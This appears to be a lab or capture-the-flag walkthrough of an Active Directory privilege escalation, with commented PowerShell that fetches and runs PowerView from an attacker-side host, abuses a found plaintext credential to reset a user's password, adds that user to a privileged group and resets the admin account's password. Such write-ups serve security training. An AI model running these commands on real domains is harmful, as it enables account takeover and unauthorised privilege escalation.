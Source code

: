 


IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8080/PowerView.ps1'))

if we get access to the `Security Engineers` Group we are able to get access of CYBER_ADM@CORP.LOCAL
searched `SECURITY ENGINEERS` & `FIRST DEGREE OBJECT CONTROL`
![[Pasted image 20231228162353.png]]


# to get into CYBER_ADM (bloodhound)

utilizing the pgibbons credentials found to change salvador's password
BloodHound AllExtendedRights abuse
```powershell
$username = 'corp\pgibbons'    # assigning credentials to username and password variable
$password = 'I l0ve going Fishing!'

$securePassword = ConvertTo-SecureString $password -AsPlaintText -Force # converting pgibbons password to a Secure String
$credential =  New-Object System.Management.Automation.PSCredential $username, $securePassword # assigning the corp\pgibbons username and password to credential variable

IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8080/PowerView.ps1')) # pulled over PowerView.ps1

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force # making Password123! a secure string and assigning to $UserPassword variable
Set-DomainUserPassword -Identity "salvador" -AccountPassword $UserPassword -credential $credential # utilizing PowerView.ps1 to change Salvador's password to Password123! with the corp\pgibbons credentials
```
changing the credentials of salvador and adding to security engineers group
```powershell
$username = 'corp\salvador'    # assigning credentials to username and password variable
$password = 'Password123!'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force # coverting the Password123! to a secure string
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword # assigning the corp\salvador username and securepassword to $credential
Add-DomainGroupMember -Identity "security engineers" -Members "salvador" -credential $credential # adding salvador user to the security engineers group utilizing the new salvador credentials
```
now change the cyber_adm password
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force # Assigning Password123! as a secure string to $UserPassword
Set-DomainUserPassword -Identity cyber_adm -AccountPassword $UserPassword -credential $credential # setting cyber_adm account password to Password123! 
```

![[Pasted image 20231228185333.png]]
